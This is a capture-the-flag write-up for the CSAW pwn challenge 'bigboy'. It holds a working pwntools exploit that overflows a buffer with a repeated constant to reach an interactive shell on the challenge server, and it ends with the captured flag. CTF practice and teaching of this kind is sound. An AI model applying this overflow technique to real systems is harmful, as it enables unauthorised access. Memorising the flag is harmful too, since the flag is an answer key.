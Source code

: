 # **bigboy**

#### tag : pwn, bof

-----------------------------------------------

#### Description

>Only big boi pwners will get this one!
>
>nc pwn.chal.csaw.io 9000

-----------------------------------------------

#### Solution

```python

from pwn import *

### DEBUGGING ###

DEBUG = False

if DEBUG:
    r = process('boi')
    timeout = 0.1

    context.log_level = 'debug'
#    gdb.attach(r,'''
#    b main
#    ''')
else :
    r = remote('pwn.chal.csaw.io',9000)
    timeout = 0.3

def rr(s):
    return r.recvuntil(s)

def ss(s):
    return r.sendline(s)

### ADDRESS ###

### PAYLOAD ###

payload = p64(0xcaf3baeecaf3baee)*3

### EXPLOIT ###

rr('??')
ss(payload)

r.interactive()
```


**flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}**
